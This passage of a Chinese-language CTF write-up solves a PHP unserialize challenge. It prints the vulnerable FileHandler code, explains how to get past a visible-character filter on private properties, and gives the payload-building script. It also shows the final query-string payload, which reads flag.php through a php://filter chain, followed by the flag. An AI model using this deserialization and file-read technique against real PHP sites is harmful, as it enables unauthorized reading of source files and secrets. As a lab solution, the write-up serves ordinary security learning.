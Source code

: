 ```
    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")   // 强比较 $op=2 int类型绕过
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))  // 只允许大小写+数字+普通字符 即可见字符
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);   // 先过滤再反序列化
    }

}
```

坑点在于`private function`序列化之后会产生不可见字符，两种绕过方式：php7.1+版本对属性不敏感，本地构造payload时全改为public；或者将`%00*%00`改为十六进制的`\00*\00`，同时将序列化结果中的s改为S

这里用第一种，private全改public

```
$obj = new FileHandler();
$obj->op = 2;
$obj->filename = 'php://filter/convert.base64-encode/resource=flag.php';
echo serialize($obj);
```

payload

```
/?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:52:"php://filter/convert.base64-encode/resource=flag.php";s:7:"content";N;}
```

flag{0138599e-6ac8-4573-b448-e15635135f63}

{{% /spoiler %}}

{{% spoiler "[GXYCTF2019]BabySQli  |  sqli 联合查询创建临时数据" %}}
